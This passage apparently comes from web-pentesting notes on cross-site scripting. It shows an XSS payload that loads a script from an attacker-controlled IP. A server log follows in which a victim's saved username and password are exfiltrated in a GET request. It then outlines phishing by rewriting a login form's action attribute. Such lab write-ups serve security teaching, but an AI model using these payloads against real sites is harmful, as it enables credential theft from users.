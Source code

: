 ```javascript
// XSS payload
<script src='http://192.168.45.214/xssSavedPasswords.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.198.101 - - [06/Aug/2024 07:12:54] "GET /xssSavedPasswords.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 07:12:59] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 07:12:59] "GET /k?u=Ryuggy&p=ShavedHeadsFTW HTTP/1.1" 404 -
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_savedPasswords.png" alt=""><figcaption><p>Figure 2: Exfiltrating saved passwords.</p></figcaption></figure>

## Phishing Users

Since we have full access to the HTML document, we could replicate an existing login page and change its `action` attribute to redirect the credentials to us (Figure 3).

<figure><img src="../../../.gitbook/assets/web_xss_phising_1.png" alt=""><figcaption><p>Figure 3: Inspecting the login form's code.</p></figcaption></figure>
